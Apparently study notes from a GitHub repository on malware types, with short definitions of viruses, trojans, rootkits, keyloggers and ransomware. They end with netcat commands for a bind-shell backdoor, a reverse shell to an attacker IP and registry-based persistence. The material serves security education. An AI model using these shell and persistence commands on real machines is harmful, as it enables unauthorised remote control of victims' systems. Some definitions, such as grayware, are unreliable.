#### Malware
* Malicious Software that allows user to harm other system/user.
* Impact: Can cause DOS, Spy Users, Gain Unauthorized Access.

|Types|
|---|
|Virus|
|Trojan|
|Rootkit| 
|Bootkit|
|Adware|
|Spyware|
|Greyware|
|Dialer|
|Keylogger|
|Botnet|
|Ransomware|
|Worm|
|Data Stealing Malware|

#### Virus 
> Small piece of code that affects system, may execute every time when opeing the code, may replicate itself.

#### Trojan Horse
> Malware that can be embedded in harmless files like pdfs, Microsoft Office Files,etc. eg. Backdoor that can allow malicious user to gain shell on remote machine.Firewall can be used by network adminstrator to restrict connections from internet to internal machines.

#### Rootkit
> Malware that allows attacker to subert OS functioning.Attacker can maintain privileged access to victim machine bypassing firewalls.

#### Adware 
> Malcious software program that shows annoying ads to victim.

#### Spyware
> SOftware that allows attacker to monitor victims activities.Collects information like visited websites, collects password, etc.

#### Grayware
> Mutated malware

#### Keylogger
> Tracks users keystrokes, password and sends to attacker.Can be used in penetration tests.

|Keyloggers|Hardware Keylogger(Pendrive)|Rootkit Keylogger(more shealthy,invisible, works at kernel level hijacking OS APIs)|
|---|---|---|

![Screenshot at 2022-12-25 10-49-08](https://user-images.githubusercontent.com/85208639/209457618-4d5c4dd3-b815-4fbd-bc4f-fe2852fb2709.png)

#### Botnets
> Small Software programs installed on mass computers. Consist of C&C Server aand can be instructed to perform certain task simultaneously.

#### Ransomware
> Software that encrypts victims files with secret key.

#### Data Stealing Software
> Malicious software program capable of stealing most sensitive data.

#### Backdoor With Netcat

```
ncat.exe -l -p 5555 -e cmd.exe >> In victims Machine

nc 192.168.10.102 5555

```

#### Reverse Connection With Netcat

> Victim is on internal network and attacker wants to connect to it.

```
nc -lvp 5555  >> Attacker listens on port 5555
nc.exe -e cmd.exe 192.168.0.1 5555


```

#### Creating Persistent Backdoor With Netcat

* Attacker needs to edit the victims registry so even when victim closes his system upon reboot attacker will be able to get a shell.
```
nc -l -v -p 5555 >> In attackers machine
Open "regedit" in victims machine and navigate to "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"  and add new registry.
```
![Screenshot at 2022-12-25 13-04-04](https://user-images.githubusercontent.com/85208639/209460152-2b8f0ad9-177d-4f3e-8ff7-a91606ae3f93.png)


![Screenshot at 2022-12-25 13-05-33](https://user-images.githubusercontent.com/85208639/209460287-434fc945-ac92-4dc4-8a47-4bc57df29c0e.png)


```

```

